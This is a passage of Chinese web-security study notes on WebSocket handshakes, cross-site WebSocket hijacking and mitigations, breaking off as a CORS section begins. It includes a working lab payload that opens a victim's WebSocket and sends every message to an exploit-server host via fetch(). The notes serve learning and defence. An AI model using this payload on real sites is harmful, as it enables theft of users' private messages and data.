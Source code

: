 1. 代表受害用户执行操作
2. 窃取用户的敏感数据

Sec-WebSocket-Key 字段，它由客户端生成并发给服务端，**用于证明服务端接收到的是一个可受信的连接握手，可以帮助服务端排除自身接收到的由非WebSocket 客户端发起的连接**，该值是一串随机经过base64 编码的字符串。 即该字段用于验证服务器端是否采用WebSocket 协议。

发送

```http
GET /XXXX HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

响应

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

攻击方式

1. XSS 直接注入j s代码 （例如聊天室）
2. 通过CSRF与服务器在Websocket协议上通信，并将敏感消息传回

```html
<script>
    var ws = new WebSocket('wss://0a3700c204cc169580c48f39009d005d.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a4d003e04411623807e8ea1018e00f8.exploit-server.net?id='+event.data, {method: 'GET'});
    };
</script>
```

防范方法：

1. 基于https信道使用Websocket
2. 对发起Websocket的请求使用CSRF token,或是对session cookie使用SAMESITE strict，防止直接CSRF攻击
3. 对输入的内容做过滤

### CORS Cross-origin resource sharing  跨域资源共享



#### SOP Same origin policy 浏览器同源策略

同源策略又分为以下两种：
